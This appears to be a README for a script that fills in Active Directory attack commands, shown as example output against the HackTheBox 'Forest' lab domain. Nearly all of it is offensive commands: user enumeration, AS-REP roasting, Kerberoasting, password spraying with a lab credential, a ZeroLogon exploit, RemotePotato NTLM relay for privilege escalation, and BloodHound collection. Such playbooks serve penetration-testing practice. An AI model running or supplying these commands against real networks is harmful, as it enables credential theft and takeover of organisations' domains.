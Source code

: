   Enter in info about a target, and the script will fill out the most common commands for you! 
  Example Output:   
# Zone transfer (Unlikely with AD)
dig axfr htb.local @10.10.10.161

# Guest RID brute
netexec smb htb.local -u anonymous -p '' --rid-brute 10000
impacket-lookupsid htb.local/anonymous@10.10.10.161

# Authenticated RID brute
netexec smb htb.local -u svc-alfresco -p 's3rvice' --rid-brute 10000
impacket-lookupsid htb.local/svc-alfresco:'s3rvice'@htb.local

# Kerbrute user enumeration
kerbrute userenum -d htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.161

# RPC Enumeration
rpcclient -U "svc-alfresco" -N 10.10.10.161

# AS Rep Roasting
for user in $(cat users.txt); do /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb.local/${user} | grep -v Impacket; done

# Kerberoasting
faketime -f +7h GetUserSPNs.py -target-domain htb.local -usersfile users.txt -dc-ip FOREST.htb.local htb.local/guest -no-pass
faketime -f +7h GetUserSPNs.py -request -dc-ip 10.10.10.161 htb.local/svc-alfresco -save -outputfile GetUserSPNs.out
GetUserSPNs.py -no-preauth 'svc-alfresco' -usersfile 'users.txt' -dc-host 'FOREST.htb.local' 'htb.local'/

# Password Spray
netexec smb 10.10.10.161 -u users.txt -p 's3rvice' --continue-on-success

# LDAP Enumeration
ldapsearch -x -H ldap://10.10.10.161 -b "dc=htb,dc=local" | grep 'userPrincipalName' | tr '@' ' ' | awk '{print $2}' > users.txt
kerbrute userenum --dc FOREST.htb.local -d htb.local users.txt

# ZeroLogon Check
sudo python ~/tools/CVE-2020-1472-master/cve-2020-1472-exploit.py FOREST 10.10.10.161

# RemotePotato Check
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.10.161:9999
sudo impacket-ntlmrelayx -t ldap://10.10.10.161 --no-wcf-server --escalate-user normal_user
.\RemotePotato0.exe -m 2 -r 10.10.14.2 -x 10.10.14.2 -p 9999 -s 1

# Bloodhound Python injestor
faketime -f +7h bloodhound-python -c ALL -u 'svc-alfresco' -p 's3rvice' -d htb.local -dc FOREST.htb.local -ns 10.10.10.161

# Powerview.py enumeration
faketime -f +7h getTGT.py htb.local/svc-alfresco:'s3rvice'
export KRB5CCNAME=./svc-alfresco.ccache
faketime -f +7h powerview htb.local/svc-alfresco@10.10.10.161 -k --no-pass --dc-ip 10.10.10.161
